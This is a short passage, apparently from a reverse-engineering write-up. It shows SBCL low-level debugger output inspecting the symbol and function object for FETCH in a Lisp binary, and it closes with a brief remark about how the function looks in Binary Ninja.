	    12: 0x00000000: 0
$116=	    13: 0x1000914f2f: FETCH
$117=	    14: 0x1000914f5f: LOAD-DATABASE
	    15: 0x00000000: 0
$118=	    16: 0x1000914f8f: FETCH-BINDINGS
ldb> p 0x1000914f2f 
$116=	  0x1000914f2f: other pointer
	    header: 0x00000545: symbol
	    value: 0x00000051: <unbound marker>
	    hash: 0x2afb8c3ad5c96da8: 1548611676535043796
$181=	    info: 0x1000a536af: #<ptr to simple vector>
$182=	    name: 0x1000a589ef: "FETCH"
$11=	    package: 0x1000237be3: #<ptr to 20300203 PACKAGE instance>
$183=	    fun: 0x100055a63b: #<ptr to simple fun>
ldb> p 0x100055a63b 
$183=	  0x100055a63b: fun pointer
	    header: 0x2030008300000831: simple fun
$184=	    code: 0x100055a5ff: #<ptr to code header>
	    self: 0x100055a660: 34362544944
$116=	    name: 0x1000914f2f: FETCH
$185=	    arglist: 0x10013772e7: ($186=PATTERN)
$187=	    type: 0x10013772f7: ($29=SFUNCTION $188=($t=T) $189=LIST)
$190=	    info: 0x100137732f: #<ptr to simple vector>
```

Apparently the function expects a list. This is how it looks in Binary Ninja:



 ouch, maybe stick to the first solution...
